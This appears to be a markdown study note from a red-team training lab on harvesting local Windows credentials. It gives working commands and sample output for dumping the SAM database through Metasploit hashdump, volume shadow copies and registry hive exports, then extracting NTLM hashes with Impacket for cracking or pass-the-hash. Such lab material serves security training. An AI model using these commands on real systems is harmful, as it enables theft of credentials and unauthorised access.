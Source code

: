 # Credentials Harvesting: Local Windows Credentials

Windows provides two types of user accounts: **Local** and **Domain**. Local user details are stored on the machine, while domain user details are managed in Active Directory. This guide focuses on harvesting credentials for local user accounts.

---

## 1. Keystrokes

A **keylogger** is a tool (software or hardware) that records keyboard activity. While keyloggers have legitimate uses (e.g., parental control, software feedback), they are often misused to steal credentials. As a red teamer, deploying a keylogger on a compromised system can help capture user credentials, especially in interactive environments.

> **Tip:** Tools like Metasploit can be used for keylogging. For practical examples, see the "THM Exploiting AD (Task 5)" room.

---

## 2. Security Account Manager (SAM)

The **SAM** database stores local account information (usernames, password hashes) in an encrypted format. It is locked while Windows is running, but there are several ways to dump its contents.

### Confirming No Access to the SAM Database

```shell
C:\Windows\system32>type c:\Windows\System32\config\sam
The process cannot access the file because it is being used by another process.

C:\Windows\System32>copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\
The process cannot access the file because it is being used by another process.
    0 file(s) copied.
```

---

### 2.1 Metasploit's HashDump

Metasploit's `hashdump` feature injects code into the `LSASS.exe` process to extract hashes from the SAM database.

```shell
meterpreter > getuid
Server username: THM\Administrator
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3b784d80d18385cea5ab3aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ec44ddf5ae100b898e9edab74811430d:::
CREDS-HARVESTIN$:1008:aad3b435b51404eeaad3b435b51404ee:443e64439a4b7fe780db47fc06a3342d:::
```

---

### 2.2 Volume Shadow Copy Service

The **Volume Shadow Copy Service** allows you to create backups of files that are in use. You can use this to copy the SAM database.

#### Steps:

1. **Run cmd.exe as Administrator**
2. **Create a shadow copy:**
    ```shell
    wmic shadowcopy call create Volume='C:\'
    ```
    Example output:
    ```
    Method execution successful.
    ShadowID = "{D8A11619-474F-40AE-A5A0-C2FAA1D78B85}";
    ```

3. **List shadow copies:**
    ```shell
    vssadmin list shadows
    ```
    Look for the `Shadow Copy Volume` path, e.g.:
    ```
    \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
    ```

4. **Copy the SAM and SYSTEM files:**
    ```shell
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
    ```

5. **Transfer files to your attack machine (e.g., via SCP).**

---

### 2.3 Registry Hives

The Windows Registry also stores copies of the SAM and SYSTEM files. You can export them using `reg.exe` (run as Administrator):

```shell
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
```

---

## 3. Decrypting SAM Hashes with Impacket

Once you have the SAM and SYSTEM files, use Impacket's `secretsdump.py` to extract hashes:

```shell
python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```

Example output:
```
[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

> **Note:** The output may differ from Metasploit's hashdump if some accounts are domain accounts. To decrypt domain account hashes, you also need the `SECURITY` file.

---

## 4. Cracking Hashes

Once you have NTLM hashes, you can attempt to crack them with tools like **Hashcat** or use them for pass-the-hash attacks.

---

**Summary:**  
- Use keyloggers for live credential capture.
- Dump the SAM database via Metasploit, Volume Shadow Copy, or Registry.
- Decrypt hashes with Impacket.
- Crack or use hashes for further attacks.
